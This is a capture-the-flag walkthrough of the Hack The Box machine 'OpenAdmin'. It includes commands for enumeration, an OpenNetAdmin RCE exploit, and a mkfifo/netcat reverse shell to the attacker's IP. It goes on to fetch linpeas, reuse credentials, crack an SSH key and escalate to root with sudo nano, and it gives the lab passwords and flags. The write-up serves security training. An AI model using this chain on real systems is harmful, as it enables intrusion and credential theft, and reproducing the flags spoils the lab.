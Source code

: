 # OpenAdmin - Easy

```shell
nmap -T4 -p- -A -Pn -v 10.10.10.171

feroxbuster -u http://10.10.10.171 -w /usr/share/wordlists/dirb/common.txt -x php,html,bak,js,txt,json,docx,pdf,zip --extract-links --scan-limit 2 --filter-status 401,403,404,405,500 --silent

searchsploit opennetadmin
#shows exploit for 18.1.1

#download exploit
python3 ona-rce.py

python3 ona-rce.py check http://10.10.10.171/ona/
#remote host is vulnerable

python3 ona-rce.py exploit http://10.10.10.171/ona/
#gives reverse shell

whoami
#www-data

#migrate to stable shell
#in new tab, setup listener
nc -nvlp 5555

#in rce shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.2 5555 >/tmp/f

#this gives us a reverse-shell on our new listener
cd /tmp

#get linpeas from attacker machine server
wget http://10.10.14.2:8000/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh

cd /opt/ona

ls -la
#go through config files
#check for passwords

cd /opt/ona/www/local/config

ls -la
#.php file contains creds

ssh jimmy@10.10.10.171
#we can reuse the password found earlier for this user

ls -la /var/www

ls -la /var/www/internal
#go through all files

#check for open ports
(netstat -punta || ss --ntpu)
#this shows open port at 52846

#ssh tunneling
ssh -L 52846:127.0.0.1:52846 jimmy@10.10.10.171

#now we can access the 'internal' webpage on localhost:52846
#login with password cracked for jimmy

#get ssh key
vim id_rsa

chmod 600 id_rsa

ssh2john id_rsa > hash_id_rsa

john --wordlist=/usr/share/wordlists/rockyou.txt hash_id_rsa
#cracks passphrase

ssh joanna@10.10.10.171 -i id_rsa

ls -la

cat user.txt

sudo -l
#we can run /bin/nano /opt/priv as sudo

#get exploit from GTFObins

sudo /bin/nano /opt/priv

#Ctrl+R, Ctrl+X
reset; sh 1>&0 2>&0
#we get root shell
```

* Open ports & services:

  * 22 - ssh - OpenSSH 7.6p1
  * 80 - http - Apache httpd 2.4.29 (Ubuntu)

* The webpage on port 80 is the default landing page for Apache; we can attempt to enumerate for other directories.

* ```feroxbuster``` shows us the following directories:

  * /artwork
  * /music
  * /ona

* Now, the /ona directory is for OpenNetAdmin - from About section, we know that it is version 18.1.1

* Using Googling or ```searchsploit```, we get RCE exploit for this version of OpenNetAdmin.

* We can download the Python exploit and run it - this gives us a reverse shell as 'www-data'.

* Now, the shell received is not that stable, so we can migrate to an improved shell on our machine at another listener.

* We can now get linpeas from attacker machine, and check for privesc.

* linpeas does not show anything significant, but we can take a look at the config files in /opt/ona/

* Eventually, in the directory ```/opt/ona/www/local/config```, we have a .php file, which contains password "n1nj4W4rri0R!" for ona_sys.

* Attempting to re-use this password for other users work as we can log in as 'jimmy' using the password via SSH.

* Now, the /var/www/ directory contains a folder called 'internal' and this includes some .php files - we can go through them.

* The index.php file in this folder contains a hash for 'jimmy', and the hash can be cracked using online services - giving us the password "Revealed".

* The main.php file shows that it will print the SSH key of 'joanna'.

* Now, we need to find a way to access this 'internal' webpage; we can check for any services or ports hosting this.

* Using netstat and ss, we can see that there are a few open ports; port 52846 is unusually high for an open port - the 'internal' pages could be hosted on this.

* With the help of SSH tunneling, we can check if we can access the services on port 52846.

* Accessing localhost:52846 on our browser, we encounter a login page - we can use the password for 'jimmy' that we found earlier, and we are able to login.

* After logging in, we get SSH key - this is for 'joanna' as we saw earlier.

* We can use ```ssh2john``` to crack the SSH key passphrase - we are able to crack it and we get the phrase 'bloodninjas'.

* We log in as 'joanna' now using the id_rsa file and passphrase.

* Checking ```sudo -l```, we can run the nano binary for a particular file as sudo.

* Checking GTFObins, we have an exploit for nano - we can use that to get root.

```markdown
1. User flag - 480064f5b66726ebfb968e9b02ec01a9

2. Root flag - 45a24c5df752c3693c0b327c67f56ed8
```
